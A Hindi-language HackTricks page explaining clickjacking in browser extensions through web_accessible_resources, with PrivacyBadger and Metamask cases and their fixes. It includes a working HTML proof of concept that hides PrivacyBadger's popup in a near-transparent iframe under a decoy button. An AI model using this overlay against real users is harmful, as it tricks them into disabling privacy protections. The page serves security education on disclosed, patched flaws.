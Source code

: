 # BrowExt - ClickJacking

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूलभूत जानकारी

इस पृष्ठ में एक ब्राउज़र एक्सटेंशन में ClickJacking वंलरेबिलिटी का दुरुपयोग किया जाएगा।\
अगर आप नहीं जानते कि ClickJacking क्या है तो देखें:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

एक्सटेंशन में फ़ाइल **`manifest.json`** शामिल होती है और उस JSON फ़ाइल में एक फ़ील्ड `web_accessible_resources` होता है। यहां [Chrome डॉक्स](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) क्या कहते हैं:

> इन संसाधनों को फिर एक वेबपेज में URL **`chrome-extension://[PACKAGE ID]/[PATH]`** के माध्यम से उपलब्ध किया जा सकता है, जो **`extension.getURL method`** के साथ उत्पन्न किया जा सकता है। अनुमति प्राप्त संसाधनों को उचित CORS हेडर्स के साथ सेवा किया जाता है, इसलिए वे XHR जैसे मेकेनिज़म के माध्यम से उपलब्ध होते हैं।[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

ब्राउज़र एक्सटेंशन में **`web_accessible_resources`** केवल वेब के माध्यम से ही पहुंचने योग्य नहीं होते हैं; वे एक्सटेंशन की निजी विशेषताओं के साथ भी काम करते हैं। इसका मतलब है कि उन्हें निम्नलिखित क्षमताएँ होती हैं:

* एक्सटेंशन की स्थिति बदलें
* अतिरिक्त संसाधन लोड करें
* ब्राउज़र के साथ एक सीमित स्तर तक बातचीत करें

हालांकि, यह सुविधा एक सुरक्षा जोखिम प्रस्तुत करती है। अगर **`web_accessible_resources`** में कोई महत्वपूर्ण कार्यक्षमता है, तो एक हमलावर इस संसाधन को एक बाह्य वेब पेज में समाहित कर सकता है। इस पृष्ठ को अनजान उपयोगकर्ता जो इस प्रासंगिक संसाधन को अनजाने में सक्रिय कर सकते हैं। इस प्रक्रिया के परिणामस्वरूप, एक्सटेंशन के संसाधनों की अनुमतियों और क्षमताओं पर निर्भर करता है।

## PrivacyBadger उदाहरण

एक्सटेंशन PrivacyBadger में, `skin/` निर्देशिका को `web_accessible_resources` के रूप में घोषित किया गया था इस प्रकार (मूल [ब्लॉग पोस्ट](https://blog.lizzie.io/clickjacking-privacy-badger.html) देखें):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
यह कॉन्फ़िगरेशन एक संभावित सुरक्षा समस्या की ओर ले गई। विशेष रूप से, `skin/popup.html` फ़ाइल, जो ब्राउज़र में PrivacyBadger आइकन के साथ इंटरैक्शन के बाद प्रदर्शित होती है, एक `iframe` के भीतर समाहित किया जा सकता था। इस समाहित का उपयोग उपयोगकर्ताओं को धोखा देने के लिए किया जा सकता था ताकि वे "इस वेबसाइट के लिए PrivacyBadger को अक्षम करें" पर अनजाने में क्लिक करें। ऐसा करने से उपयोगकर्ता की गोपनीयता को खतरे में डाल दिया जा सकता था क्योंकि PrivacyBadger सुरक्षा को अक्षम कर देने से उपयोगकर्ता को अधिक ट्रैकिंग का सामना करना पड़ सकता था। इस एक्शन का उपयोग करके इस दोष को दूर करने के लिए एक सीधा समाधान लागू किया गया था: `web_accessible_resources` की सूची से `/skin/*` को हटाना। यह परिवर्तन खतरे को सफलतापूर्वक कम कर दिया गया था क्योंकि यह सुनिश्चित करता था कि `skin/` निर्देशिका की सामग्री को वेब-सुलभ संसाधनों के माध्यम से उपयोग किया या परिवर्तित नहीं किया जा सकता था।

सुधार आसान था: **`web_accessible_resources` से `/skin/*` हटाएं**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask उदाहरण

[**Metamask में ClickJacking के बारे में एक ब्लॉग पोस्ट यहाँ पाई जा सकती है**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). इस मामले में, Metamask ने यह सुरक्षा दोष ठीक कर दिया था जिसमें यह जांचा गया था कि उसे एक्सेस करने के लिए उपयोग किया गया प्रोटोकॉल **`https:`** या **`http:`** था (उदाहरण के लिए **`chrome:`** नहीं):

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**Metamask एक्सटेंशन में एक और ClickJacking दोष ठीक किया गया** था जब पेज संदेहास्पद था कि यह फिशिंग हो सकता है क्योंकि `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. उस पेज पर Clickjacking के लिए वंशज इसका दुरुपयोग कर सकते थे जिससे कुछ सामान्य दिखाकर पीड़ित को इसे व्हाइटलिस्ट करने के लिए क्लिक करने में ध्यान नहीं जाता, और फिर फिशिंग पेज पर वापस जाते जो व्हाइटलिस्ट हो जाएगा।

## Steam Inventory Helper उदाहरण

एक **XSS** कैसे एक ब्राउज़र एक्सटेंशन में **ClickJacking** दोष के साथ जोड़ा गया था, इसे जांचने के लिए निम्नलिखित पेज की जाँच करें:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## संदर्भ

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

